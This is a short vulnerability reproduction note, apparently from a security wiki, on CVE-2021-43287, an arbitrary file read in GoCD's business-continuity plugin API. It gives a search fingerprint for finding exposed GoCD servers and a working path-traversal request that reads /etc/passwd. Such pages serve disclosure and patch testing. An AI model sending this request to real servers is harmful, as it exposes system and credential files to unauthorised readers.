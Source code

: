 # GoCD plugin arbitrary file reading vulnerability CVE-2021-43287

## Vulnerability Description

There is a vulnerability to read any file in the pluginName parameter in the GoCD plugin aip parameter, causing the attacker to obtain any sensitive information in the server.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">GoCD</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">title="Create a pipeline - Go"</span>

## Vulnerability reappears

Main page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636434942043-e6504dd1-b77e-4e24-b4d9-53721500b5d7.png)

Verify POC

```php
/go/add-on/business-continuity/api/plugin?folderName=&pluginName=../../../etc/passwd
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1636435040571-3f50c183-822e-4680-a15c-8d2bf7268161.png)
